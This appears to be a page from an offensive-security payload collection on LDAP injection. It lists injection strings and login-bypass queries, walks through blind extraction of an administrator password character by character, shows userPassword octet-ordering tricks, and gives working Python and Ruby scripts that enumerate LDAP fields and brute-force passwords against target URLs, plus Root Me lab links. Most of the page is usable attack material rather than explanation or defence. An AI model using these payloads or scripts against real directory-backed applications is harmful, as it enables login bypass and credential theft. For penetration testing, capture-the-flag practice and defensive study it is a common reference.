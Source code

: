 # LDAP Injection

> LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it's possible to modify LDAP statements using a local proxy.


## Summary

* [Methodology](#methodology)
* [Payloads](#payloads)
* [Blind Exploitation](#blind-exploitation)
* [Defaults attributes](#defaults-attributes)
* [Exploiting userPassword attribute](#exploiting-userpassword-attribute)
* [Scripts](#scripts)
    * [Discover valid LDAP fields](#discover-valid-ldap-fields)
    * [Special blind LDAP injection](#special-blind-ldap-injection)
* [Labs](#labs)
* [References](#references)


## Methodology

Example 1.

```sql
user  = *)(uid=*))(|(uid=*
pass  = password
query = (&(uid=*)(uid=*))(|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))
```

Example 2

```sql
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))
```

## Payloads

```text
*
*)(&
*))%00
)(cn=))\x00
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
```

## Blind Exploitation

We can extract using a bypass login

```sql
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
(&(sn=administrator)(password=MY*))  : OK
(&(sn=administrator)(password=MYA*)) : KO
(&(sn=administrator)(password=MYB*)) : KO
(&(sn=administrator)(password=MYC*)) : KO
...
(&(sn=administrator)(password=MYK*)) : OK
(&(sn=administrator)(password=MYKE)) : OK
```


## Defaults attributes

Can be used in an injection like `*)(ATTRIBUTE_HERE=*`

```bash
userPassword
surname
name
cn
sn
objectClass
mail
givenName
commonName
```


## Exploiting userPassword attribute

`userPassword` attribute is not a string like the `cn` attribute for example but it’s an OCTET STRING
In LDAP, every object, type, operator etc. is referenced by an OID : octetStringOrderingMatch (OID 2.5.13.18).

> octetStringOrderingMatch (OID 2.5.13.18): An ordering matching rule that will perform a bit-by-bit comparison (in big endian ordering) of two octet string values until a difference is found. The first case in which a zero bit is found in one value but a one bit is found in another will cause the value with the zero bit to be considered less than the value with the one bit.

```bash
userPassword:2.5.13.18:=\xx (\xx is a byte)
userPassword:2.5.13.18:=\xx\xx
userPassword:2.5.13.18:=\xx\xx\xx
```

## Scripts

### Discover valid LDAP fields

```python
#!/usr/bin/python3
import requests
import string

fields = []
url = 'https://URL.com/'
f = open('dic', 'r')
world = f.read().split('\n')
f.close()

for i in world:
    r = requests.post(url, data = {'login':'*)('+str(i)+'=*))\x00', 'password':'bla'}) #Like (&(login=*)(ITER_VAL=*))\x00)(password=bla))
    if 'TRUE CONDITION' in r.text:
        fields.append(str(i))

print(fields)
```

### Special blind LDAP injection (without "*")

```python
#!/usr/bin/python3
import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] Looking for number " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web?action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] Flag: " + flag)
            break
```

Exploitation script by [@noraj](https://github.com/noraj)

```ruby
#!/usr/bin/env ruby
require 'net/http'
alphabet = [*'a'..'z', *'A'..'Z', *'0'..'9'] + '_@{}-/()!"$%=^[]:;'.split('')

flag = ''
(0..50).each do |i|
  puts("[i] Looking for number #{i}")
  alphabet.each do |char|
    r = Net::HTTP.get(URI("http://ctf.web?action=dir&search=admin*)(password=#{flag}#{char}"))
    if /TRUE CONDITION/.match?(r)
      flag += char
      puts("[+] Flag: #{flag}")
      break
    end
  end
end
```



## Labs

* [Root Me - LDAP injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/LDAP-injection-Authentication)
* [Root Me - LDAP injection - Blind](https://www.root-me.org/en/Challenges/Web-Server/LDAP-injection-Blind)


## References

- [[European Cyber Week] - AdmYSion - Alan Marrec (Maki)](https://www.maki.bzh/writeups/ecw2018admyssion/)
- [ECW 2018 : Write Up - AdmYSsion (WEB - 50) - 0xUKN - October 31, 2018](https://0xukn.fr/posts/writeupecw2018admyssion/)
- [How To Configure OpenLDAP and Perform Administrative LDAP Tasks - Justin Ellingwood - May 30, 2015](https://www.digitalocean.com/community/tutorials/how-to-configure-openldap-and-perform-administrative-ldap-tasks)
- [How To Manage and Use LDAP Servers with OpenLDAP Utilities - Justin Ellingwood - May 29, 2015](https://www.digitalocean.com/community/tutorials/how-to-manage-and-use-ldap-servers-with-openldap-utilities)
- [LDAP Blind Explorer - Alonso Parada - August 12, 2011](http://code.google.com/p/ldap-blind-explorer/)
- [LDAP Injection & Blind LDAP Injection - Chema Alonso, José Parada Gimeno - October 10, 2008](https://www.blackhat.com/presentations/bh-europe-08/Alonso-Parada/Whitepaper/bh-eu-08-alonso-parada-WP.pdf)
- [LDAP Injection Prevention Cheat Sheet - OWASP - July 16, 2019](https://www.owasp.org/index.php/LDAP_injection)